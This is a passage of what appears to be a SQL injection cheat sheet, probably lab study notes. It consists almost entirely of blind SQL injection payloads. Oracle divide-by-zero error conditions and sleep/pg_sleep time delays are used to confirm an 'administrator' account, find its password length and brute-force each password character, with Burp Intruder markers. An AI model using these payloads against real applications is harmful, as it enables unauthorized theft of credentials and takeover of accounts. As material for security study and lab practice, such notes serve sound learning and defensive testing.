         ```
        '|| (SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ```

        If so, determine the password length

        ```
        ''||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ''||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ...
        ''||(SELECT CASE WHEN LENGTH(password)=8 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ```

        Brute force password character

        ```
        '||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        '||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ...
        '||(SELECT CASE WHEN SUBSTR(password,8,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
        ```

- **Time Delay**

    1. **First Check**

        ```
        ' AND sleep(5)--
        '||pg_sleep(10)--
        '; SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        '; SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
        ```

    2. **Check if Content Value Exists**

        ```
        '; SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        ```

        If so, determine the password length

        ```
        '; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        '; SELECT CASE WHEN (username='administrator' AND LENGTH(password)>2) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        ...
        '; SELECT CASE WHEN (username='administrator' AND LENGTH(password)=8) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
        ```
